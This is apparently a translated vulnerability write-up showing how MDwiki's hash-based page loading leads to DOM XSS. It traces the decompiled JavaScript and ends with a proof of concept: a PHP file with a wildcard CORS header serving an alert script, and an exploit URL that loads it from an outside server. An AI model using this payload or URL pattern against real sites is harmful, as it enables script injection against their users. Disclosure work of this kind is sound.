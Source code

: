 Originally thought that only a problem with Tencent's site implementation, the black brother reminded me to look at the Github address in the source code, only to find the open source [MDwiki](https://github.com/Dynalon/mdwiki) universal system. (MDwiki is a wiki/CMS system built entirely on HTML5/Javascript technology and runs entirely on the client. No special server software is required, just upload mdwiki.html to the directory where you store the markdown files.) The problem occurs when the program gets the location The .hash value (normally test.md) is parsed and the ajax request is dynamically added to the page.

## MDwiki.min.js

Decompressing the compressed JavaScript is easy to debug, and the confusion variable is temporarily ignored, n() :

```
    function n() {
        var b;
        b = window.location.hash.substring(window.location.hash.startsWith("#!") ? 2 : 1), b = decodeURIComponent(b);
        var c = b.indexOf("#"); - 1 !== c ? (a.md.inPageAnchor = b.substring(c + 1), a.md.mainHref = b.substring(0, c)) : a.md.mainHref = b
    }
```

The variable b gets the value after location.hash #! and URLDecode , which is then assigned to a.md.mainHref .

## ajax getURL

```
 var d = {
    url: a.md.mainHref,
    dataType: "text"
};
a.ajax(d).done(function (a) {
    b = a, c()
}).fail(function () {
    var b = a.md.getLogger();
    b.fatal("Could not get " + a.md.mainHref), c()
})
```
The content will be requested by a.md.mainHref, and the b variable will be a:page content after completion.

```
var e = d(b);
a("#md-content").html(e), b = "";
var g = a.Deferred();
f(g), g.always(function () {
    c()
})
```
e = d(b), b requires equal to Payload, chase d function:

```
function d(b) {
    var c = {
        gfm: !0,
        tables: !0,
        breaks: !0
    };
    "original" === a.md.config.lineBreaks ? c.breaks = !1 : "gfm" === a.md.config.lineBreaks && (c.breaks = !0), marked.setOptions(c);
    var d = marked(b);
    return d
}
```

The e value is dynamically added to #md-content after being rendered by the d function –> marked(b) function, causing a vulnerability.

## PoC
We can construct a page to write to Payload and set the ACCESS-CONTROL-ALLOW-ORIGIN header:

```
cat test/mdwiki.php
<?php

header("ACCESS-CONTROL-ALLOW-ORIGIN:*");
?>
<script>alert(location.href)</script>
```

eg: http://dynalon.github.io/mdwiki/mdwiki.html#!http://server.n0tr00t.com/test/mdwiki.php